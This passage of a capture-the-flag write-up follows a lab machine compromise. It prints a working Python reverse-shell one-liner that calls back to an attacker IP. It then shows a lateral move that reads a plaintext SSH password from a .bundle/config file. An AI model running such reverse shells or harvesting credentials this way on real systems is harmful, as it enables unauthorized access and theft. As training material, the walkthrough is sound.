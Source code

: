### 2.2 Reverse Shell
#
Now I use https://www.revshells.com/ to generate a reverse shell with the following command:

    python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.XX.XX",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

<p align="center">
  <img src="Images/shell.png" />
</p>

But we have a problem, because the flag is in the home directory of user `henry`, which we (`ruby`) cannot access.

```bash
$ find / -name "user.txt" 2>/dev/null
find / -name "user.txt" 2>/dev/null
/home/henry/user.txt
$ cat /home/henry/user.txt
cat /home/henry/user.txt
cat: /home/henry/user.txt: Permission denied
```

### 2.3 Ruby to Henry
#
In the `ruby` home directory there are various files and searching among them, in particular in `./bundle` I found a `config` file which contains the `SSH` password for `henry`.

```bash
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 May  4 04:06 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  4 04:06 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
$ ls -al .bundle
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  4 04:06 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
